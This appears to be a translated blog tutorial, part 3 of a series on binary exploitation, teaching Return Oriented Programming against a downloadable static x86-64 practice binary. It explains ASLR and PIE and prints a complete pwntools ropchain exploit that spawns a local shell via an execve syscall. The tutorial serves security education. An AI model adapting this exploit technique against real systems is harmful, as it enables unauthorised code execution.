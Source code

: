 ```yaml
---
author: "Laluka"
title: "PWN 3/4 : SaperliROPette !"
slug: "pwn_3of4_saperliropette"
date: 2018-05-09
status: "translated"
description: "Introduction to Return Oriented Programming (ROP) and practical example."
---
```


> Small edit after the initial publication of the articles:

> These four articles lead me to give an "pwn introductory" conference at the HitchHack 2018. It summarizes the first 3 articles but goes less into detail. If this format suits you better, the slides are downloadable[here] (/hacking/pwn_1of4_buffer_overflow/slides_conf_123_pwned.pdf) and the video (French only) here :

[![1, 2, 3, PWNED !](http://img.youtube.com/vi/hmt8M9YLwTg/0.jpg)](https://www.youtube.com/watch?v=hmt8M9YLwTg)

## Pwn Road, third stop, welcome aboard!

Yesterday, the simple buffer overflow and ret2libc, today, ROP, or Return Oriented Programming, and tomorrow... Tomorrow the conquest of the world!

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/aboard.jpg" alt="aboard" >

I left you yesterday on the ret2libc, which, seen from afar, consists in picking in the libc the functions that interest us the most. Except that this attack is not possible in the case where the program is compiled statically, and hardly feasible if the ASLR is enabled. Today we will discover the ROP that allows us to bypass these protections.

It looks more and more like the cat and mouse game, so... \
Follow the leader cat!

## ASLR and PIC details

Before we start, a little feedback on these sometimes confusing protections.

The ASLR is configured through `/proc/sys/kernel/randomize_va_space`. It can be set to 0=off, 1=on (stack and heap), 2=on (1 + .data). The value 2 being the new standard being adopted, which is already effective for the most part.

The ASLR therefore leaves a whole non-randomized attack surface. So what had to happen happened: attacks using the sections .text, .data, .got, .plt, ...

More information on the different sections and structure of an ELF here: [ELF_format](https://www.cs.stevens.edu/~jschauma/631A/elf.html)

As the ASLR is not sufficient, new protections have been put in place: PIC / PIE (Position Independent Code / Executable). The mainidea is simple... How about we randomize... EVERYTHING?!

ROP works with partial or total ASLR, but is countered by the latest measure...

Following at the next countermeasure! è.é

## Presentation of the technique

Return... Oriented... Programming...

Um um... Programming... With... Return? °^°'

We're going to take advantage of the fact that the .text section of the program is still in the same place to pick up a lot of little pieces of code called gadgets, and assemble them to do our exploit. The exploit is therefore a series of addresses pointing at assembler, so in the absolute, we can do everything with it. The only limit? The gadgets that are available in the program...

Even if we "can do everything", the most common strategy remains to do as in article 1 where we generate a shellcode which, via a syscall, allows us to execute a program of our choice.

An important thing to note here: We need gadgets. Gadgets are code that doesn't move. Libraries are always relocated. So a program based on libraries will have a much smaller attack surface than a program compiled in static that would contain all the code it needs. Also, the larger the program will be and the more complex actions it'll do, the more likely you'll find interesting stuff inside. Capich? Noice!

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/noice.gif" alt="noice" >

Now, let's go more into detail about gadgets, shall we?

They must all meet a major criterion: End with a ret instruction.

It is this criterion that makes the attack possible. Indeed, when we control the instruction pointer, we will make it execute a first gadget. When it'll reach the final ret instruction, the previous saved instruction pointer will be restored the execution will continue on the stack (which we just overflowed). But the next address will be the one of the second gadget and so on.

However, if your gadget ends with a ret, but contains instructions that modify the execution flow of the program, it may break your exploit. So no `call`, no `leave`, no `double ret`, no arms, and above all: no chocolate.

Many tools are available to list the gadgets of an executable, such as ROPgadget, Ropper, XRop, ...

## Elaboration of the exploit

The studied binary is downloadable[here](/hacking/pwn_3of4_saperliropette/vuln)

First of all, we look at what we're dealing with: x86-64, compiled in static, full ASLR. Okay!

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/readelf.png" alt="readelf" >

You're used to it now, the classic one:

Understand how the program works, find the crash, then the offset!

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/pattern_create.png" alt="pattern_create" >

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/crash.png" alt="crash" >

Here again, we see that we crash on a ret... Do we control RSP? Yes! Offset? 264!

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/pattern_search.png" alt="pattern_search" >

Small reminder, ret has the effect of placing what RSP points to (so the last element of the stack), in RIP. So we have RIP under our control. So... RIP!

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/dead_shell.jpg" alt="dead_shell" >

We then use the ropgadget tool which offers us a superb ropchain made with our vulnerable program:

```shell
$ ropgadget --binary vuln --ropchain
```

The output is long (verbose), I only put part of it:

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/ropgadget.png" alt="ropgadget" >

So we make it a python file, our exploit is the following:

```python
#!/usr/bin/env python2

from pwn import *

# Setting up
context.log_level = "debug"

offset = 264
payload = "A" * offset
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c0)  # @ .data
payload += p64(0x000000000043167d)  # pop rax ; ret
payload += '/bin//sh'
payload += p64(0x000000000045f661)  # mov qword ptr [rsi], rax ; ret
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x000000000041918f)  # xor rax, rax ; ret
payload += p64(0x000000000045f661)  # mov qword ptr [rsi], rax ; ret
payload += p64(0x000000000040158b)  # pop rdi ; ret
payload += p64(0x00000000006b41c0)  # @ .data
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x0000000000432ef5)  # pop rdx ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x000000000041918f)  # xor rax, rax ; ret
payload += p64(0x0000000000453b50) * 59 # add rax, 1 ; ret
payload += p64(0x00000000004546e5)  # syscall ; ret

p = process("./vuln")
p.recv()
p.sendline(payload)
p.interactive()
p.close()
```

Isn't it beautiful all this automation? Well, it doesn't always work, but when it works, the time saved is huge, especially in CTF... ;)

We will now exploit it:

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/run_exploit.png" alt="run_exploit" >

TADA, one more shell! :D

Small detail that kills, we see here that $0 (the name of the executed program) is `bash`, whereas in our ropchain, we had `/bin//sh` (which is understood as `/bin/sh`). But that's normal, because on my machine, `/bin/sh` is a symbolic link that points to bash! My real sh is `/usr/bin/sh`.

 > But... That doesn't match the previous exploits?!

Whoa! Whoa! One that follows! Yes, indeed...\
More information on this strangeness our dear beloved friens Pixis's website : [sh_vs_bash](https://beta.hackndo.com/sh-vs-bash/)

That's it for this short introduction to ROP, I hope it blown your mind as much as mine when I found out about this attack. You now have many cards to play with: BOF / shellcode / ret2libc / ROP / brain / ...

That is why our next meeting will be based on the analysis of a more complete program. So we're going to conclude this series and...

Blow up the world! `\o/`

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/like_a_boss.gif" alt="like_a_boss" >

See you soon for even more pwn!
